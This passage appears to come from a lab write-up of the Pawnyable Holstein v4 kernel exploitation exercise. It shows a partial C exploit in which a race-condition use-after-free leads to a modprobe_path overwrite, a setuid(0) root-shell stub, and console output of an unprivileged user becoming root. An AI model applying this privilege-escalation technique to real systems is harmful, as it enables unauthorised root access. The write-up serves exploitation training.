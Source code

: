 Then I got an idea: why not hide the code inside the exploit itself?

I thought about dropping another file on the system from my exploit but then I realized I can just make the exploit behave differently if arguments are passed to it.

So I added a check at the start of `main()` function to see if `argc == 2` (1 argument is passed). This way calling `"./exploit whatever"` would run only the "dropping shell" code instead of the whole exploit.
```c
int main(int argc, char **argv) {
    // Too lazy to write separate program to spawn a shell
    if (argc == 2) {
        printf("[+] getuid() returns %d\n", geteuid());
        setuid(0);
        setgid(0);
        system("/bin/sh");
        return 0;
    }

    // Normal exploit path
    int victim_fd = trigger_race_condition_uaf();
    ...
    puts("[+] Overwrote modprobe_path...");
    ...
    puts("[+] Spawning a shell");
    system("/exploit a");
```
And with that the exploit is complete!
```
Starting syslogd: OK
Starting klogd: OK
Running sysctl: OK
Saving random seed: OK
Starting network: OK
Starting dhcpcd...
dhcpcd-9.4.1 starting
no interfaces have a carrier
forked to background, child pid 101

Boot took 5.00 seconds

[ Holstein v4 (KL01-4) - Pawnyable ]
/ $ id
uid=1000 gid=1000 groups=1000
/ $ ./exploit 
[+] fd1=3, fd2=4
[+] Spray did not hit
[+] Spraying on another CPU...
[+] Spray hit! x=0x5401
[+] Spray successful! victim_fd=5
[+] leaked kbase = 0xffffffff84600000
[+] leaked g_buf = 0xffff8e6f81aa1c00
[+] Overwrote modprobe_path...
/tmp/a: line 1: ����: not found
[+] Spawning a shell
[+] getuid() returns 0
/ # id
uid=0(root) gid=0(root) groups=1000
/ # 
```
# Full exploit
